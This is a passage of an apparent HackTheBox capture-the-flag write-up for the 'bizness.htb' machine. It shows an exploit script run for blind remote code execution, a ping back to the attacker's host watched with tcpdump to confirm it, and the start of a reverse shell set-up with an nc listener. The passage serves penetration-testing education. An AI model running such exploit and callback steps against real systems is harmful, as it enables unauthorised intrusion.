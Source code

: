 

    oxdf@hacky$ sudo update-alternatives --config java
    There are 6 choices for the alternative java (providing /usr/bin/java).

      Selection    Path                                            Priority   Status
    ------------------------------------------------------------
      0            /usr/lib/jvm/jdk-11-oracle-x64/bin/java          184729600 auto mode
      1            /usr/lib/jvm/java-11-openjdk-amd64/bin/java      1111      manual mode
      2            /usr/lib/jvm/java-17-openjdk-amd64/bin/java      1711      manual mode
    * 3            /usr/lib/jvm/java-18-openjdk-amd64/bin/java      1811      manual mode
      4            /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java   1081      manual mode
      5            /usr/lib/jvm/jdk-11-oracle-x64/bin/java          184729600 manual mode
      6            /usr/local/java/jdk1.8.0_391/bin/java            1         manual mode

    Press <enter> to keep the current choice[*], or type selection number: 5
    update-alternatives: using /usr/lib/jvm/jdk-11-oracle-x64/bin/java to provide /usr/bin/java (java) in manual mode



#### POC

To see if this works, I'll try running `id`:



    oxdf@hacky$ python exploit.py https://bizness.htb rce id
    Not Sure Worked or not 



The message implies that the script doesn't expect to see the output of
the command. It's a blind exploit.

I'll listen for ICMP with `tcpdump` on my host and have it ping me:



    oxdf@hacky$ python exploit.py https://bizness.htb rce "ping -c 1 10.10.14.6"
    Not Sure Worked or not



At `tcpdump`:



    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    15:58:43.879612 IP 10.10.11.252 > 10.10.14.6: ICMP echo request, id 11245, seq 1, length 64
    15:58:43.879639 IP 10.10.14.6 > 10.10.11.252: ICMP echo reply, id 11245, seq 1, length 64



That's RCE!

#### Shell

The POC has a `shell` option, which, with `nc` listening on 443, I'll
run:

